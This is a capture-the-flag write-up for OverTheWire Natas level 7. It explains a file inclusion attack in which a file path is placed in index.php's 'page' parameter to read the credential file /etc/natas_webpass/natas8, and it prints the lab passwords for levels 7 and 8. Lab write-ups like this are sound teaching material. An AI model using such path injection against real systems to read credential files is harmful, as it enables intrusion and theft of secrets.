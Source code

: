 # Level 7

## Challenge Details 

- **CTF:** OverTheWire
- **Category:** Natas

## Provided Materials

- [http://natas7.natas.labs.overthewire.org](http://natas7.natas.labs.overthewire.org)
- username: `natas7`
- password: `jmxSiH3SP6Sonf8dv66ng8v1cIEdjXWr`

## Solution

![start](./start.jpg)

`<!-- hint: password for webuser natas8 is in /etc/natas_webpass/natas8 -->`

The attack is called `File Inclusion Attack` *(More about it [here](https://book.hacktricks.xyz/pentesting-web/file-inclusion))*. So basically, after word `page` in `index.php?page=home` we can enter any file to open from the system if it is not secure, so let's try to open [http://natas7.natas.labs.overthewire.org/index.php?page=/etc/natas_webpass/natas8](http://natas7.natas.labs.overthewire.org/index.php?page=/etc/natas_webpass/natas8):

![pass](./pass.jpg)

## Password

`natas8`:`a6bZCNYwdKqN5cGP11ZdtPg0iImQQhAB`

*Created by [bu19akov](https://github.com/bu19akov)*